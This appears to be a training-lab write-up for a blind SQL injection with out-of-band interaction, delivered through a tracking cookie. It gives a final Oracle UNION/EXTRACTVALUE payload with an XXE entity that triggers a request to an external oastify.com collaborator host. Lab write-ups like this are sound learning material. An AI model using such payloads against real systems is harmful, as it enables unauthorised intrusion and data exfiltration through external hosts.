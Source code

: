 # Blind SQL injection with out-of-band interaction
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.\
\
To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

# Solution

|![](Images/image-42.png)|
|:--:| 
| *Modification of cookie value* |

Final payload:

```
Encoded: '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//xlmj5cg2qkopgynpdliohm4mzd54tzho.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

Decoded: ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xlmj5cg2qkopgynpdliohm4mzd54tzho.oastify.com/"> %remote;]>'),'/l') FROM dual--
```